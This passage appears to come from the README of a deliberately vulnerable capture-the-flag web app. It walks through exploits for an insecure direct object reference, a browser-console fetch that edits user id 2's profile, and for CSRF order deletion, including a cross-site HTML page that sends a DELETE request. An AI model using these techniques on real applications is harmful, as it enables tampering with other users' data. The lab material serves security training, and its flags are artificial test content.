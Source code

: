 **Exploitation:**
1. Login to the application
2. Go to the profile page
3. Open browser developer tools (F12)
4. In the console, execute:
   ```javascript
   fetch('/api/user/profile', {
       method: 'PUT',
       headers: {'Content-Type': 'application/json'},
       body: JSON.stringify({id: 2, firstName: 'Hacked'})
   }).then(r => r.json()).then(console.log)
   ```
5. The flag will be displayed

### 4. **CSRF (Cross-Site Request Forgery)** - Order Deletion
- **Location**: Orders page (`/orders.html`)
- **Vulnerability**: Missing CSRF token validation
- **Flag**: `THM{CSRF_EXPLOIT_SUCCESS}`

**Exploitation:**
1. Login to the application
2. Go to the orders page
3. Click the "Delete" button on any order
4. The flag will be displayed in a modal

**Alternative Method:**
Create an HTML file with:
```html
<html>
<body>
<script>
fetch('http://localhost:5000/api/orders/1', {
    method: 'DELETE',
    headers: {'Content-Type': 'application/json'}
}).then(r => r.json()).then(console.log)
</script>
</body>
</html>
```

## Setup Instructions

### Prerequisites
- Python 3.7+
- pip

### Installation
1. **Install dependencies:**
   ```bash
   pip install -r requirements.txt
   ```
